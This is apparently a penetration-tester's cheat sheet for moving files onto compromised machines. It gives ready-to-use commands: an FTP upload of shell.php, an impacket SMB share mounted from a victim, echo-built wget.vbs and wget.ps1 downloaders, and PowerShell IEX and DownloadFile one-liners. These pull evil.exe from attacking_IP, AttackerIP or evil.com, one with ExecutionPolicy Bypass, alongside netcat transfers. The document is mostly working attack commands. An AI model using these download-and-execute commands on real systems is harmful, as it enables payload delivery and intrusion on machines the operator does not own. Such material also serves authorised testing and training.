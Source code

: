 # File Transfers

Potential tools that can be used:

-  wget
-  Python Simple Server Module 
-  FTP
-  nmap http-put
-  wget.vbs/ps1 (see below)
-  Cadaver
-  [Swego](https://github.com/nodauf/Swego)
-  [satellite](https://github.com/t94j0/satellite)
-  [pwndrop](https://github.com/kgretzky/pwndrop)

## FTP

If you have FTP access, you can try "putting" a file:

`ftp> put shell.php`

## Simple HTTP Server with Python

Turn current (kali) directory into a webserver (won't have to copy to /var/www/html):

`$ python -m SimpleHTTPServer <port#>`

## Impacket SMB Server

Attacking machine:

`$ impacket-smbserver GetchShare $(pwd) -smb2support -user Getch -password I@mGr00t!`

Target machine (Windows):

```powershell
PS C:\> $pass = convertto-securestring 'I@mGr00t!' -AsPlainText -Force
PS C:\> $cred = New-Object System.Management.Automation.PSCredential('Getch', $pass)
PS C:\> New-PSDrive -Name Getch -PSProvider FileSystem -Credential $cred -Root [\\<attacking_IP>\GetchShare](file://%3cattacking_IP%3e/GetchShare)
PS C:\> cd GetchShare:
PS GetchShare:\> echo "tada!"
```

## Python SMTP Server

`$ sudo python3 -m smtpd -n -c DebuggingServer 0.0.0.0:25`

## wget.vbs:

```shell
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

**USAGE**:

`C:\Users\Victim>cscript wget.vbs [http://attacking_IP/evil.exe](http://attacking_IP/evil.exe) evil.exe`

## wget.ps1

```powershell
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "[http://attacking_IP/evil.exe](http://attacking_IP/evil.exe)" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

**USAGE**:

`C:\Users\Victim>powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`

## Downloading from PowerShell:

`PS C:\Users\Victim> IEX(New-Object Net.WebClient).downloadString('http://AttackerIP:port/FileToDownload.exe')`

or

`PS C:\Users\Victim> IEX(New-Object Net.WebClient).DownloadFile('http://AttackerIP:port/FileToDownload.exe','C:\Users\Victim\Writeable-Directory\FileToDownload.exe')`

or

`cmd /c powershell IEX(New-Object Net.WebClient).DownloadFile('http://AttackerIP:port/FileToDownload.exe','C:\Users\Victim\Writeable-Directory\FileToDownload.exe')`

or 

`PS C:\Users\Victim> Invoke-WebRequest -Uri https://evil.com/evil.exe -OutFile evil.exe`

## Nc

On the receiving end, running...

`nc -l -p 1234 > out.file`

...will begin listening on port 1234.

On the sending end, running...

`nc -w 3 \[destination\] 1234 < out.file`

...will connect to the receiver and begin sending file.

From <[https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/](https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)\>